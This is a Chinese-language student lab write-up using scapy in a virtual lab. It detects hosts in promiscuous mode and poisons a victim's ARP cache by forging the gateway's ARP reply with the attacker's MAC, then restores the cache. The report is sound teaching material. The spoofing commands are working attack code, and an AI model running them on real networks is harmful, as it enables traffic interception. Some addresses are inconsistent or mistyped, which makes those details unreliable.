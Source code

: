 # 第四章实验：网络监听
## 网络拓扑结构

![](img/1.png)

网络中的节点基本信息如下：
```
攻击者主机：Kali-attacker
08:00:27:0e:34:8d / eth0
172.16.111.112/24

受害者主机：Kali-victim-1
08:00:27:0e:34:8d/ eth0
172.16.111.111/24

网关：Debian-gateway
08:00:27:4d:d4:ab/ enp0s9
172.16.111.1/24
```     

## 安装scapy

- 首先在攻击主机上安装scapy,并且安装好python3
```
sudo apt update && sudo apt install python3 python3-pip

pip3 install scapy[complete]
```

![](img/2.png)

![](img/3.png)

## 实验一：检测局域网中的异常终端

- 首先在受害者主机上检查网卡的混杂模式是否启用

  ip link show eth0

  ![](img/4.png)

- 之后在攻击者主机上开启 scapy

  sudo scapy

  ![](img/5.png)

- 开启scapy之后，在scapy的交互式终端输入以下代码回车执行：
  ```
  pkt = promiscping("172.168.56.111")
  ```
  
  ![](img/6.png)

- 回到受害者主机上手动开启该网卡的「混杂模式」
  ```
  sudo ip link set eth0 promisc on
  ```
  
- 再次检查混杂模式状态，发现输出结果里多出来了 PROMISC
  ```
  ip link show eth0
  ```

  ![](img/7.png)

- 回到攻击者主机上的 scapy 交互式终端继续执行命令
  ```
  pkt = promiscping("172.16.111.111")
  ```
  两次pkt结果对比:

  ![](img/8.png)  

- 在受害者主机上手动关闭该网卡的「混杂模式」
  ```
  sudo ip link set eth0 promisc off
  ```

## 实验二：手工单步“毒化”目标主机的 ARP 缓存
- 受害者主机初始ARP缓存信息
 
  ![](img/9.png) 

以下代码在攻击者主机上的 scapy 交互式终端完成

- 构造一个 ARP 请求
  ```
  arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")
  ```

- 查看构造好的 ARP 请求报文详情
  ```
  arpbroadcast.show()
  ```
 
  ![](img/10.png) 

- 发送这个 ARP 广播请求
  ```
  recved = srp(arpbroadcast, timeout=2)
  ```

  ![](img/11.png) 

- 伪造网关的 ARP 响应包，准备发送给受害者主机 172.16.111.111，ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址
  ```
  arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.111",hwdst="08:00:27:0e:34:8d")
  ``` 
- 发送上述伪造的 ARP 响应数据包到受害者主机
  ```
  sendp(arpspoofed)
  ```

  ![](img/12.png) 

- 此时在受害者主机上查看 ARP 缓存，会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址
  ```
  ip neigh
  ```
  
  ![](img/13.png)  

回到攻击者主机上的 scapy 交互式终端继续执行命令。

- 恢复受害者主机的 ARP 缓存记录

  - 伪装网关给受害者发送 ARP 响应
  ```
  restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:a6:e8:f6", pdst="172.16.111.111", hwdst=" 08:00:27:0e:34:8d")

  sendp(restorepkt1, count=100, inter=0.2)
  ```
  
  ![](img/14.png) 

此时在受害者主机上准备“刷新”网关 ARP 记录。

- 在受害者主机上尝试 ping 网关
  ```
  ping 172.16.111.1
  ```
- 静候几秒 ARP 缓存刷新成功，退出 ping

- 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  ```
  ip neigh
  ```

  ![](img/15.png)   

## 参考资料

- [2020-ns-public-Crrrln](https://github.com/CUCCS/2020-ns-public-Crrrln/blob/chap0x04/chap0x04/exp4.md)
